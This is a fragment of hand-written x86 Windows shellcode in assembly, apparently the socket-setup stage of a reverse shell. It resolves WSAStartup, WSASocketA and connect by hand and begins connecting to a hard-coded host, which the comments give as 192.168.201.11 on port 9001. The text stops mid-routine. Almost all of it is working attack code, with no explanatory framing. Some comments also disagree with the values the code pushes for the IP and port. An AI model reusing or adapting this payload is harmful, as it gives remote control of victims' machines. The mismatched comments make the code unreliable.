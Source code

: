 ```text
PUSH EBX					;Push EBX as wVersionRequested
CALL EAX					;Call WSAStartUp

;Find the address of WSASocketA
ADD  ESP, 0x10					;Align the stack
XOR  EBX, EBX					;zero out the EBX register
ADD  BL, 0x4					;add 0x4 at the lower register BL
IMUL EBX, 0x64					;EBX = 0x190
MOV  EDX, [ESP + EBX]				;EDX has the address of GetProcAddress
PUSH 0x61614174					;"aaAt"
SUB  word [ESP + 0x2], 0x6161	     		;"At" (remove "aa")
PUSH  0x656b636f				;"ekco"
PUSH  0x53415357				;"SASW"
PUSH ESP					;"WSASocketA", GetProcAddress 2nd argument
MOV  EAX, EDI					;EAX now holds the ws2_32.dll address
PUSH EAX					;push the first argument of GetProcAddress
CALL EDX					;call GetProcAddress
PUSH EDI					;save the ws2_32.dll address to use it later

;call WSASocketA
XOR ECX, ECX					;zero out ECX register
PUSH 0x0
PUSH 0x0
PUSH 0x0
MOV  EDX, 0x6					;IPPROTO_TCP
;PUSH EDX					;null value for dwFlags argument
;PUSH EDX					;zero value since we dont have an existing socket group
;PUSH EDX					;null value for lpProtocolInfo
;MOV  DL, 0x6					;IPPROTO_TCP
PUSH EDX					;set the protocol argument
INC  ECX					;SOCK_STREAM(TCP)
PUSH ECX					;set the type argument
INC  ECX					;AF_INET(IPv4)
PUSH ECX					;set the ddress family specification argument
CALL EAX					;call WSASocketA
XCHG EAX, ECX					;save the socket returned from WSASocketA at EAX to ECX in order to use it later

;Find the address of connect
POP  EDI                             ;load previously saved ws2_32.dll address to ECX
ADD  ESP, 0x10                       ;Align stack
XOR  EBX, EBX                        ;zero out EBX
ADD  BL, 0x4                         ;add 0x4 to lower register BL
IMUL EBX, 0x63                       ;EBX = 0x18c
MOV  EDX, [ESP + EBX]                ;EDX has the address of GetProcAddress
PUSH 0x61746365                      ;"atce"
SUB  word [ESP + 0x3], 0x61	     ;"tce" (remove "a")
PUSH 0x6e6e6f63                      ;"nnoc"
PUSH ESP                             ;"connect", second argument of GetProcAddress
PUSH EDI                             ;ws32_2.dll address, first argument of GetProcAddress
XCHG ECX, EBP
CALL EDX                             ;call GetProcAddress

;call connect
PUSH 0x6a6ac92b                      ;sin_addr set to 192.168.201.11 2BC96A6A C0A8C90B
PUSH word 0xb80b		     ;port = 9001
XOR  EBX, EBX                        ;zero out EBX
add  BL, 0x2                         ;TCP protocol
PUSH word BX			     ;push the protocol value on the stack
MOV  EDX, ESP                        ;pointer to sockaddr structure (IP,Port,Protocol)
PUSH byte  16			     ;the size of sockaddr - 3rd argument of connect
PUSH EDX                             ;push the sockaddr - 2nd argument of connect
PUSH EBP                             ;socket descriptor = 64 - 1st argument of connect
```